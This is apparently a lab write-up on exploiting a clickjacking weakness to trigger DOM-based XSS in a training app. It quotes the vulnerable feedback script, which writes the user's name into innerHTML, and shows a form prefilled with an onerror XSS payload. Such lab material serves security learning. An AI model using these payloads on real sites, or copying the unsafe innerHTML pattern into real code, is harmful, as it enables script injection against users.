 

#### Exploiting clickjacking vulnerability to trigger DOM-based XSS

> This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function. 

submitFeedback.js

```javascript
document.getElementById("feedbackForm").addEventListener("submit", function(e) {
    submitFeedback(this.getAttribute("method"), this.getAttribute("action"), this.getAttribute("enctype"), this.getAttribute("personal"), new FormData(this));
    e.preventDefault();
});

function submitFeedback(method, path, encoding, personal, data) {
    var XHR = new XMLHttpRequest();
    XHR.open(method, path);
    if (personal) {
        XHR.addEventListener("load", displayFeedbackMessage(data.get('name')));
    } else {
        XHR.addEventListener("load", displayFeedbackMessage());
    }
    if (encoding === "multipart/form-data") {
        XHR.send(data)
    } else {
        var params = new URLSearchParams(data);
        XHR.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        XHR.send(params.toString())
    }
}

function displayFeedbackMessage(name) {
    return function() {
        var feedbackResult = document.getElementById("feedbackResult");
        if (this.status === 200) {
            feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
            feedbackForm.reset();
        } else {
            feedbackResult.innerHTML =  "Failed to submit feedback: " + this.responseText
        }
    }
}
```

Trigger XSS

```html
<form id="feedbackForm" action="/feedback/submit" method="POST" enctype="application/x-www-form-urlencoded" personal="true">
                        <input required="" type="hidden" name="csrf" value="co8ZpCmZID7ki9InG5eRm5xXc1I1Fhik">
                        <label>Name:</label>
                        <input required="" type="text" name="name" value="<img src=&quot;1&quot; onerror=&quot;alert(1)&quot;>">
                        <label>Email:</label>
                        <input required="" type="email" name="email" value="111@test.com">
                        <label>Subject:</label>
                        <input required="" type="text" name="subject" value="1">
                        <label>Message:</label>
                        <textarea required="" rows="12" cols="300" name="message">1</textarea>
                        <button class="button" type="submit">
                            Submit feedback
                        </button>
```